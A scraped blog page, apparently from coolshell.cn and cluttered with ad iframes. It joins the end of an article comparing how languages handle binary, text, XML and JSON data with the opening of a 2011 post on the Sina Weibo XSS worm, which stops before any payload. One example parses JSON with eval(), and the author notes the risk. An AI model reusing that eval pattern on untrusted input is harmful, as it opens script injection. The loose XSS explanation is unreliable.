o&amp;p=https%3A//coolshell.cn&amp;dtd=109" data-google-container-id="a!6" data-google-query-id="CKHvlOi89_4CFYTKfAodqtAGug" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1885312169&amp;adf=3882423702&amp;pi=t.aa~a.425447425~i.26~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157978&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4905.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhrs1kDUK2fzcaThDkd9L1RAKdedHQVnsb-J-UE66LfwjPn2L3IW9nGwGQG_mR3-E26lk9E&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158900727&amp;bpp=1&amp;bdt=2259&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280&amp;nras=3&amp;correlator=913020618243&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=447160074&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2859&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1500&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071755%2C31074602%2C42531705%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvi3zsTafiFyatjsEqtzAfH_0JMg_r4NoSIjaVovh-XW3jTCnpFQbTu1B0Knh514bIJZZl3GPEy2DeqpOfhVCpvYv9I&amp;pvsid=1269313492760522&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=hXpflIw3rU&amp;p=https%3A//coolshell.cn&amp;dtd=42" data-google-container-id="a!3" data-google-query-id="CPXlkOi89_4CFULRvQodXtoDRA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

 

上面的方法在实际应用中还需要注意内存对齐问题和大小端问题。内存对齐问题可以通过编译器预处理命令来进行控制，保证内存中struct结构与传输的字节块具有相同的对齐方式；大小端问题需要通信的双方采用同样的大小端方式，否则就需要进行转换。

C++可以完全兼容C的结构体，但C++的类(包括class和struct)中如果定义了虚函数，则会丧失结构的字节块数据亲和力，这是C++编程时需要权衡的一个因素。而除了C/C++，其他语言中则难以见到字节块数据亲和力，其原因在于C/C++允许控制结构体/对象的内存布局，并允许对指针进行非类型安全的强制类型转换，这都是在Java，C#等语言中不允许的。所以，在Java、C#中进行字节块的编码解码就只能按照协议一个字段一个字段地按偏移量和长度进行解析。C/C++的指针以及结构体和内存的直接映射带来了对字节块数据的亲和力，但同时也留下了内存访问和类型安全的隐患；而Java、C#在拥有引用安全和类型安全的同时也失去了对字节块数据的亲和力。

 

 

#### **文本格式**

文本格式是另一种十分常见的数据格式。《Unix编程艺术》中是这样描述文本格式的：”Text streams are a valuable universal format because they’re easy for human beings to read, write, and edit without specialized tools ”。基于文本流的管道处理是一种备受赞誉的Unix风格。Shell可以通过管道把各种功能单一的命令串联起来，让文本流在管道上流动，因而Shell语言具有很好的文本数据亲和力。许多文本数据处理任务Bash都可以一行搞定，这就是Hacker们酷爱的One Liner风格。

 

下面我们来看两个用Bash进行文本处理的例子：

1. 统计当前目录下的gz文件数目：


ls –l *.gz | wc –l


 

2. 在Web服务器日子service.log中统计2011年6月26和27两天中每天中各页面的PV


cat service.log | grep ^2011-06-2[6-7] | cut –d ‘ ‘ –f 1, 3 | sort | uniq –c


 

service.log:

2011-06-25 13:00:55 /music/c.htm Safari
…
2011-06-26 08:01:23 /main.htm IE
2011-06-26 08:03:01 /sports/b.htm Chrome
…
2011-06-27 11:41:06 /main.htm IE
2011-06-27 11:52:41 /news/a.htm Firefox

 

输出:

210 2011-06-26 /main.htm
231 2011-06-26 /news/a.htm
155 2011-06-26 /sports/b.htm
288 2011-06-27 /main.htm
292 2011-06-27 /news/a.htm
161 2011-06-27 /sports/b.htm

 

上面的两个简单文本数据处理任务如果是在C或C++下实现则要麻烦得多，代码量至少是十几行或者数十行，加上编译调试，整个开发效率可能比Shell低一个数量级。除了Shell外，Perl也是以强大的文本数据处理而闻名的。我们来看一个Perl正则表达式的例子：

**while** (<STDIN>) {

​    **if** (/hello\s(\w+)/i)  {

​        print “say hello to $1“

​     }

​     elsif (/goodbye\s(\w+)/i)  {

​         print “say goodbye to  $1”

​    }

}

<iframe id="aswift_7" name="aswift_7" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1885312169&amp;adf=3715459480&amp;pi=t.aa~a.425447425~i.72~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157978&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4905.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhrs1kDUK2fzcaThDkd9L1RAKdedHQVnsb-J-UE66LfwjPn2L3IW9nGwGQG_mR3-E26lk9E&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158900743&amp;bpp=1&amp;bdt=2275&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C1447x764%2C1005x124&amp;nras=7&amp;correlator=913020618243&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=447160074&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=5381&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=2385&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071755%2C31074602%2C42531705%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvi3zsTafiFyatjsEqtzAfH_0JMg_r4NoSIjaVovh-XW3jTCnpFQbTu1B0Knh514bIJZZl3GPEy2DeqpOfhVCpvYv9I%2CABHeCvjlhL8VZXhttAymf83GK4LeJ8GFo_mPZypMVJer9zEDVTeUiNITRB--0snjVuEJYY2Y9bKk3E59jIvQ3PLvt9azV40_AKdbdZujkNWwWW1HV414Sg%2CABHeCvih-ri5joIe-MX5DqaJhzMdF7Bkpzv0rhtB1RoXJBIAzTE6G0T5C45XqlaxPtr-yEQBZivIimw6H13_M2Pd9nNegRu2%2CABHeCvjIWQXeZM7pgdn_gbdBFHjvF0-rN6Bg5F4GWoo4PrQCI3smdp-ROYdOL8DFmDoQw_edAj-YQQh4nAjI-Gcj_XOGM4eW&amp;pvsid=1269313492760522&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=8&amp;uci=a!8&amp;btvi=4&amp;fsb=1&amp;xpc=73P3Qpohjg&amp;p=https%3A//coolshell.cn&amp;dtd=2315" data-google-container-id="a!8" data-google-query-id="CJmZnOm89_4CFSeC6QUdc_4Jsw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

输入：

HeLLo world

Goodbye bug

输出：

say hello to world

say goodbye to bug

上面的例子中我们看到Perl直接进行字符串匹配并进行数据提取的强大威力。Perl基于正则表达式的字符串处理不仅比C/C++等系统语言更强大，甚至比Python这样的动态语言也更强大和更方便，这是因为正则表达式是Perl语言的“一等公民”，这就使得Perl比其他以库的方式支持正则表达式功能的语言具有更好的文本数据亲和力。后来的Ruby也学习Perl把直接在语言上支持正则表达式。

 

#### **结构化文本格式**

XML是最近十几年来流行起来的一种通用（半）结构化的文本数据交换格式。XML除具有一般文本格式的优点外，还具有表达复杂的层次信息的优势，所以它至诞生以来就被大量用于配置文件和各种Web Service中。现代程序设计基本都少不了了XML打交道，不过在C++、Java和C#集中静态类型语言中处理XML却并不是一件十分轻松的事情。我们先来看一个Java解析和构建下面这个XML的例子：

<**langs** type="current">

  <**language**>Java</**language**>

  <**language**>Groovy</**language**>

  <**language**>JavaScript</**language**>

</**langs**>

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1885312169&amp;adf=3715459480&amp;pi=t.aa~a.425447425~i.95~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157978&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4905.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhrs1kDUK2fzcaThDkd9L1RAKdedHQVnsb-J-UE66LfwjPn2L3IW9nGwGQG_mR3-E26lk9E&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158900720&amp;bpp=1&amp;bdt=2252&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C1447x764%2C1005x124%2C704x280&amp;nras=8&amp;correlator=913020618243&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=447160074&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=6589&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=3589&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071755%2C31074602%2C42531705%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvi3zsTafiFyatjsEqtzAfH_0JMg_r4NoSIjaVovh-XW3jTCnpFQbTu1B0Knh514bIJZZl3GPEy2DeqpOfhVCpvYv9I%2CABHeCvjlhL8VZXhttAymf83GK4LeJ8GFo_mPZypMVJer9zEDVTeUiNITRB--0snjVuEJYY2Y9bKk3E59jIvQ3PLvt9azV40_AKdbdZujkNWwWW1HV414Sg%2CABHeCvih-ri5joIe-MX5DqaJhzMdF7Bkpzv0rhtB1RoXJBIAzTE6G0T5C45XqlaxPtr-yEQBZivIimw6H13_M2Pd9nNegRu2%2CABHeCvjIWQXeZM7pgdn_gbdBFHjvF0-rN6Bg5F4GWoo4PrQCI3smdp-ROYdOL8DFmDoQw_edAj-YQQh4nAjI-Gcj_XOGM4eW%2CABHeCviwP0MlTSLmHwxuKdq2_-HYxZsaO5IjaXu9hWqomrfyjXPk2wZeV1gd1BluLXGQmSkQUjjaKf9QWN8GASnCqdcRdEFT&amp;pvsid=1269313492760522&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=5&amp;fsb=1&amp;xpc=tEpErGAurY&amp;p=https%3A//coolshell.cn&amp;dtd=3687" data-google-container-id="a!5" data-google-query-id="CIOz7-m89_4CFdGC6QUd2y8MvQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

 

//Java解析XML

DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

**try** {

​    DocumentBuilder db = dbf.newDocumentBuilder();

​    Document doc = db.parse("src/languages.xml");

​    Element langs = doc.getDocumentElement();

​    System.out.println("type = " + langs.getAttribute("type"));

​    NodeList list = langs.getElementsByTagName("language");

​    **for**(**int** i = 0 ; i &lt; list.getLength();i++) {

​        Element language = (Element) list.item(i);

​        System.out.println(language.getTextContent());

​    }

}**catch**(Exception e) {

​    e.printStackTrace();

}

//Java创建XML

DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

**try** {

​    DocumentBuilder db = dbf.newDocumentBuilder();

​    Document doc = db.newDocument();

​    Element langs = doc.createElement("langs");

​    langs.setAttribute("type", "current");

​    doc.appendChild(langs);

​    Element language1 = doc.createElement("language");

​    Text text1 = doc.createTextNode("Java");

​    language1.appendChild(text1);

​    langs.appendChild(language1);

​    Element language2 = doc.createElement("language");

​    Text text2 = doc.createTextNode("Groovy");

​    language2.appendChild(text2);

​    langs.appendChild(language2);

​    Element language3 = doc.createElement("language");

​    Text text3 = doc.createTextNode("JavaScript");

​    language3.appendChild(text3);

​    langs.appendChild(language3);

} **catch** (Exception e) {

​    e.printStackTrace();

}

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1885312169&amp;adf=1256274171&amp;pi=t.aa~a.425447425~i.100~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157978&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4905.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhrs1kDUK2fzcaThDkd9L1RAKdedHQVnsb-J-UE66LfwjPn2L3IW9nGwGQG_mR3-E26lk9E&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158900713&amp;bpp=1&amp;bdt=2245&amp;idt=0&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280%2C704x280%2C1447x764%2C1005x124%2C704x280%2C704x280&amp;nras=9&amp;correlator=913020618243&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=447160074&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=7731&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=4683&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071755%2C31074602%2C42531705%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvi3zsTafiFyatjsEqtzAfH_0JMg_r4NoSIjaVovh-XW3jTCnpFQbTu1B0Knh514bIJZZl3GPEy2DeqpOfhVCpvYv9I%2CABHeCvjlhL8VZXhttAymf83GK4LeJ8GFo_mPZypMVJer9zEDVTeUiNITRB--0snjVuEJYY2Y9bKk3E59jIvQ3PLvt9azV40_AKdbdZujkNWwWW1HV414Sg%2CABHeCvih-ri5joIe-MX5DqaJhzMdF7Bkpzv0rhtB1RoXJBIAzTE6G0T5C45XqlaxPtr-yEQBZivIimw6H13_M2Pd9nNegRu2%2CABHeCvjIWQXeZM7pgdn_gbdBFHjvF0-rN6Bg5F4GWoo4PrQCI3smdp-ROYdOL8DFmDoQw_edAj-YQQh4nAjI-Gcj_XOGM4eW%2CABHeCviwP0MlTSLmHwxuKdq2_-HYxZsaO5IjaXu9hWqomrfyjXPk2wZeV1gd1BluLXGQmSkQUjjaKf9QWN8GASnCqdcRdEFT%2CABHeCvgKoQE3M67HSBhBix9f6MzbWChmVO5IK61T7lwz4E437qVVyo-fqC1HNMVEVLkVzOcXXVXdNCdTJPWNGusfCiS6yEp3&amp;pvsid=1269313492760522&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=6&amp;fsb=1&amp;xpc=hwLKLMEunW&amp;p=https%3A//coolshell.cn&amp;dtd=4294" data-google-container-id="a!4" data-google-query-id="CNmtk-q89_4CFbmH6QUdfmYHOA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>


为了解析和创建小小的一段XML代码需要编写如此冗长的Java代码，而实现同样的功能动态语言Groovy则十分简洁：

//Groovy解析XML

**def** langs = new XmlParser().parse("languages.xml")

println "type = ${langs.attribute("type")}"

langs.language.each{

​    println it.text()

}

//Groovy创建XML

**def** xml = new groovy.xml.MarkupBuilder()

xml.langs(type:"current"){

   language("Java")

   language("Groovy")

   language("JavaScript")

}

 

上面Groovy操作XML的代码简洁而富有表达力，代码与XML几乎是一一对应的，如同直接在XML上进行操作的DSL一样，而相应的Java代码则看不到XML的影子。这说明Groovy具有很高的XML数据的亲和力。为什么Java和Groovy在XML亲和力方面有这样的差异呢？原因在于Java要求所有的方法和属性都必须先定义再调用，严格的静态类型检查使得Java只能把XML元素作为“二等公民”来表达；而Groovy则没有静态类型检查的限制，可以自由地使用方法和属性来表达XML结构。上面用Groovy创建XML的例子中，groovy.xml.MarkupBuilder类中实际上并没有langs, language这些方法，但会在调用的时候自动创建相应的XML结构。

 

除了XML外，JSON是另一种通用的半结构化的纯文本数据交换格式，它常被视为轻量级的XML。JSON的本意是Javascript的对象表示(Javascript Object Notation)，它属于Javascript的语法子集，所以Javascript对JSON有原生的支持。下面就是一个在Javascript中创建JSON对象的例子：

[javascript]var json = { “langs” :
{
"type” : "current”,
"language” : ["Java”, "Groovy”, "Javascript”]
}
}[/javascript]

许多Javascript程序都会通过AJAX都从服务器获取JSON字符串，然后把字符串解析为JSON对象。由于Javascript对JSON的原生支持，所以，在Javascript中解析JSON字符串可以采用通用的eval方式，如：

[javascript]var json = eval(“(" + jsonStr + “)");

alert(json.langs.type);[/javascript]

甚至可以：

[javascript]eval(“var json = ” + jsonStr);

alert(json.langs.type);[/javascript]

 

不过eval的通用性带来了一定的安全隐患，所以一般只建议对受信任的数据源采用eval方式解析JSON，对于不受信任的数据源可以采用专门的JSON解析库。无论如何Javascript对JSON的原生支持都使得Javascript创建和解析JSON数据十分的简单，也就是说Javascript具有很高的JSON数据亲和力。另外，Groovy 1.8也加入了对JSON的原生支持，操作JSON与Javascript一样方便。

#### **总结**

到这里为止本文篇幅已经很长了，只能列举二进制字节块格式、文本格式和结构化文本格式3种典型的数据格式。实际上，数据亲和力的话题还有很多值得探讨的，比如C#的Linq。本文的探讨算是抛砖引玉，目的在于引起大家注意在比较语言的时候不要忽略了数据亲和力这样一个重要方面。本文的错误或不足，敬请指正，谢谢！

# 新浪微博的XSS攻击

#####  [2011年06月28日 ](https://coolshell.cn/articles/4914.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [244 条评论](https://coolshell.cn/articles/4914.html#comments) 87,057 人阅读

今天晚上（2011年6月28日），新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等微博和私信，并自动关注一位名为hellosamy的用户。

事件的经过线索如下：

- 20:14，开始有大量带V的认证用户中招转发蠕虫
- 20:30，2kt.cn中的病毒页面无法访问
- 20:32，新浪微博中hellosamy用户无法访问
- 21:02，新浪漏洞修补完毕

 

新浪微博XSS事件

 

在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。


首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器上的程序通话。这就是XSS攻击的最基本思路。

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3873836010&amp;adf=2791398471&amp;pi=t.aa~a.425447425~i.17~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157999&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4914.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhK36b5c7h549FMz1WnDN5vsjZ8ge4Vm_w_M6QHY7CCTwN_f5CWk5JLogGeKzCzfK7y0ipt&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158924662&amp;bpp=1&amp;bdt=2758&amp;idt=-M&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280&amp;nras=4&amp;correlator=7264560074563&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=958857972&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1710&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvhsxdoMuDiDp58j68BloA_BhzkLQGnc30vCbAlzsSzXFLU0Gic6nLz5M9glA9-13-nfPHSsbYoWRhldq6oqadnaoOs&amp;pvsid=3494100411922138&amp;tmod=1738974273&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=2&amp;fsb=1&amp;xpc=UwMLruc2GQ&amp;p=https%3A//coolshell.cn&amp;dtd=42" data-google-container-id="a!4" data-google-query-id="CKu9xfO89_4CFQ85Kgodck0EBg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; 